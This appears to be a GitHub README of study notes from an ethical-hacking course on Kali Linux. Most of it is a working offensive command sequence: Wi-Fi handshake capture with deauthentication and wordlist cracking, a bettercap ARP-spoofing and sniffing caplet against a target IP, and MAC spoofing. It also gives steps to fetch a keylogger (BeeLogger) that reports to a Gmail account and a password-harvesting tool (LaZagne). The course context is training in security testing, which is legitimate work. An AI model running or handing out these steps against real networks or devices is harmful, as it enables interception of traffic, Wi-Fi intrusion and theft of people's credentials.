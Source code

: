 # udemy-ethical_hacking_kali_linux
## Udemy - Ethical Hacking With Python, JavaScript and Kali Linux  

### In Kali Linux use next introduction tools:  
netdiscover -i eth0 -r 10.0.2.1/24  
zenmap     --> better tool to scan the network (uses nmap as a core command)  
airmon-ng  --> wlan tool that makes possible to cahange status from Managed to Monitor mode  
iwconfig wlan0 mode monitor  --> manually change mode to Monitor (used after executing "ifconfig wlan0 down/up")  
  
fern --> GUI application to crack WI-FI  
airodump-ng --bssid --channel 6 --write demo-handshake wlan0mon  --> capturing connection handshake  
aireplay-ng --deauth 4 -a (BSSID) -c (STA) wlan0mon  --> force disconnect station and capture with previous app WPA handshake  
aircrack-ng demo-handshake-01.cap -w wordlist  --> will crack demo-handshake against generated wordlist  
  
### In Kali linux try introduction for "bettercap":
sudo bettercap  --> enter to the console of application  
help            --> to see which modules are available/enabled  
help net.probe  --> will send UDP packets to probe the network on connected devices  
net.probe on    --> turn it on  
help arp.spoof  -->  
set arp.spoof.fullduplex true   --> Will attack the target and the Gateway, this will ensure that if there is protection in GTW, the attack will succeed.  
set arp.spoof.targets 10.0.2.4  --> Adding the target to monitor.  
arp.spoof on    --> enable the spoof service  
set net.sniff.local true  --> If true, will consider packets from/to computer as local.  
net.sniff on    --> enable the sniffing service  

vim sniff.cap  
----------------------------  
net probe on  
set arp.spoof.fullduplex true  
set arp.spoof.targets 10.0.2.4  
set net.sniff.local true  
arp.spoof on  
net.sniff on  
----------------------------  
bettercap -iface eth0 -caplet sniff.cap  --> will do manual job as auto.  

### To change MAC Address of your adapter do next:  
ifconfig wlan0 down  
ifconfig wlan0 hw ether 00:11:22:33:44:55  
ifconfig wlan0 up  

### Create a logger with reports to be sent to your dedicated Gmail
git clone https://github.com/4w4k3/BeeLogger.git
install on your kali-linux
create a new dedicated Gmail account with this enabled https://www.google.com/settings/security/lesssecureapps

### Retrieve locally stored passwords on your host with LaZagne
git clone https://github.com/AlessandroZ/LaZagne.git
pip install -r requirements.txt
laZagne.exe all       (Launch all modules)
LaZagne.exe browsers  (will show you found local passwords)
